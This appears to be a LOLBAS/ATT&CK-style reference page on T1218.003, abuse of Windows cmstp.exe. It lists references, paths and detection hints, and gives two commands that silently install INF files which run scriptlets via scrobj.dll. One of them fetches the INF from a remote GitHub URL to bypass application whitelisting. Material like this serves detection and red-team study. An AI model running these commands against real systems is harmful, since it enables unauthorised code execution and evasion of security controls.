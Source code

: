 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1218.003 - CMSTP
## References

* MITRE ATT&CK [https://attack.mitre.org/techniques/T1218/003](https://attack.mitre.org/techniques/T1218/003)
* https://twitter.com/NickTyrer/status/958450014111633408
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp

`Cmstp.exe`

* Execute AWL bypass 
* Installs or removes a Connection Manager service profile.

**Paths**
* C:\Windows\System32\cmstp.exe
* C:\Windows\SysWOW64\cmstp.exe

**LOLBIN Acknowledgements**
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

**Detection**
* Execution of `cmstp.exe` should not be normal unless VPN is in use
* `Cmstp.exe` communication towards internet and getting files

#### Execute

* Silently installs a specially formatted local .INF without creating a desktop icon. The `.INF` file contains a **UnRegisterOCXSection** section which executes a `.SCT` file using `scrobj.dll`.

```cmd
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
```

* Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

#### AWL bypass
Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.

```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```

* Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10